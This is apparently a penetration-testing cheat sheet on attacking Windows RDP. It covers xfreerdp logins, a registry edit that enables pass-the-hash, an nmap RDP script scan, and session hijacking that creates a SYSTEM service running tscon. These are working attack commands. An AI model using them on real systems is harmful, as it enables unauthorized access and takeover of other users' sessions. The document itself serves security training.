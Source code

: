 ```yaml
---
layout: default
---
```


# Interacting
## Connecting
```bash
# ClearPassword
$ xfreerdp /v:<target-IP> /d:<domain> /u:<username> /p:<password>

# PTH
> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
$ xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
```

# Footprinting
## Nmap
```bash
$ nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```

# RDP Session Hijacking
```
PS > query user
```
As shown in the example below, we are logged in as the user juurena (UserID = 2) who has Administrator privileges. Our goal is to hijack the user lewen (User ID = 4), who is also logged in via RDP.

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session). So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:

```
> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use Microsoft sc.exe binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.

```
> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

To run the command, we can start the sessionhijack service :

```
> net start sessionhijack
```

`Note: This method no longer works on Server 2019.`
